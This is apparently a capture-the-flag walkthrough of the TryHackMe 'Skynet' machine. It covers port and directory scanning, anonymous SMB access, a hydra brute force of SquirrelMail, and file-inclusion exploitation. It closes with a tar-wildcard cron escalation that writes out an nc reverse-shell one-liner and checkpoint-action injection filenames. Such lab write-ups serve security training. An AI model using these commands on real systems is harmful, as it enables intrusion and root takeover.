



# [Skynet](https://tryhackme.com/room/skynet) #
Description: We only know that this is a terminator themed machine

## Recon
We begin with a nmap scan for open ports: `nmap -sS -A 10.10.237.248` 
```
Nmap scan report for 10.10.59.36
Host is up (0.36s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: AUTH-RESP-CODE PIPELINING UIDL CAPA SASL TOP RESP-CODES
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: SASL-IR more have LITERAL+ listed ID IMAP4rev1 post-login capabilities Pre-login LOGIN-REFERRALS OK ENABLE LOGINDISABLEDA0001 IDLE
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/18%OT=22%CT=1%CU=38943%PV=Y%DS=4%DC=T%G=Y%TM=62D560C
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=106%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m12s, median: 0s
| smb2-time: 
|   date: 2022-07-18T13:31:43
|_  start_date: N/A
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2022-07-18T08:31:43-05:00

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   99.50 ms  10.4.0.1
2   ... 3
4   363.74 ms 10.10.59.36

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.24 seconds
```

## Enumeration
### 1. Web
Started gobuster to enumerate the directory while we navigate to the webserver on port 80.\
We are greeted with a blank search page resembling the Google main page.



However, the search feature did not seem to work with a simple test and on closer look in the dev console shows us that our queries were not passed along with the request. There was also no javascript anywhere on the page, which tells us that the page is just a plain html form that does nothing.



Our gobuster scan has returned some interesting directories to explore.
```
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.59.36/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/18 09:48:38 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 310] [--> http://10.10.59.36/admin/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.59.36/css/]  
/js                   (Status: 301) [Size: 307] [--> http://10.10.59.36/js/]   
/config               (Status: 301) [Size: 311] [--> http://10.10.59.36/config/]
/ai                   (Status: 301) [Size: 307] [--> http://10.10.59.36/ai/]    
/squirrelmail         (Status: 301) [Size: 317] [--> http://10.10.59.36/squirrelmail/]
```
Except for /squirrelmail, the rest of the directories are forbidden i.e. not accessible to not unauthenticated users.\
Navigating to /squirrelmail, we are greeted with a login page.


Unable to find any default credentials for squrrielmail, we move on to enumerate other ports on the machine.

### 2. SMB
We are able to list smb folders using null credentials.
```
smbclient --no-pass -L 10.10.59.36      

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	anonymous       Disk      Skynet Anonymous Share
	milesdyson      Disk      Miles Dyson Personal Share
	IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            SKYNET
```

We successfully connect to the anonymous shared folder without credentials too.\
We list the shared folder contents and download them onto our attacker machine.
```
smbclient --no-pass //10.10.234.143/anonymous
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 26 11:04:00 2020
  ..                                  D        0  Tue Sep 17 03:20:17 2019
  attention.txt                       N      163  Tue Sep 17 23:04:59 2019
  logs                                D        0  Wed Sep 18 00:42:16 2019

		9204224 blocks of size 1024. 5831268 blocks available
smb: \> mask ""
smb: \> recurse
smb: \> prompt
smb: \> mget *
getting file \attention.txt of size 163 as attention.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \logs\log2.txt of size 0 as logs/log2.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \logs\log1.txt of size 471 as logs/log1.txt (0.3 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \logs\log3.txt of size 0 as logs/log3.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```
The attention.txt file seems to be a note from the administrator to all employees about a system malfunction which changed their passwords. It also gives us some clues about the administrator's username.\
The log1.txt file contains a list of strings that look like passwords.
```
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```
With a username and a potential list of passwords, we can launch a brute force attack on the squrrielmail login page. But first we have to intercept the request using BurpSuite and modify the request to be acceptable by hydra.
Hydra returns us the credentials milesdyson:cyborg007haloterminator
```
hydra -l milesdyson -P ./log1.txt 10.10.160.63 http-post-form "/squirrelmail/src/redirect.php:SQMSESSID=9g80q1i201ai3lqe3h9n07kdp5&login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect" -vv
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-19 09:48:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task
[DATA] attacking http-post-form://10.10.160.63:80/squirrelmail/src/redirect.php:SQMSESSID=9g80q1i201ai3lqe3h9n07kdp5&login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.10.160.63/squirrelmail/src/webmail.php
[80][http-post-form] host: 10.10.160.63   login: milesdyson   password: cyborg007haloterminator
[STATUS] attack finished for 10.10.160.63 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-19 09:48:42
```
We find an email in milesdyson's inbox telling us his SMB password as been changed to: )s{A&2Z=F^n_E.B`

We log into his personal smb share and find a file named important.txt.\
After we cat out the contents of the file, we see a directory for the beta CMS.
```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```
Navigating to the hidden directory, we are greeted with the Miles' personal page.\


## Exploitation phase
Now we switch gears to look for an exploit to gain an initial foothold onto our machine.\
We find a RCE vulnerability (CVE-2017-7692) for [SquirrelMail 1.4.23](https://github.com/xl7dev/Exploit/blob/master/SquirrelMail/SquirrelMail_RCE_exploit.sh).\
Unfortunately the exploit script does not seem to work.

We continue to enumerate the hidden folder /45kra24zxs28v3yd and find an administrator login panel.


We find a [Local/Remote File Inclusion vulnerability](https://www.exploit-db.com/exploits/25971) and tried the payload for /etc/passwd and was presented with the output we are looking for!\


Next we try the remote file inclusion method to gain initial foothold into our machine and we can see that we are logged in as www-data.\
```
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 09:25:18 up 42 min,  0 users,  load average: 0.04, 0.02, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id   
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## Escalate privileges
After looking around the machine, we notice that there's a backup.sh script that runs every minute on the machine and it is executed with root permissions.\
Seeing that we don't have permissions to edit the script, we continue looking around and found out about [tar privilege escalation](https://blog.gregscharf.com/2021/03/22/tar-in-cronjob-to-privilege-escalation/) for cronjobs.

The article suggests three commands to be executed in the destination directory of the tar command.
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 10.10.10.10 4445 >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
### Gaining root
After setting up a netcat listener for the reverse shell and executing the three commands, we finally gain root access into our machine.
```
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```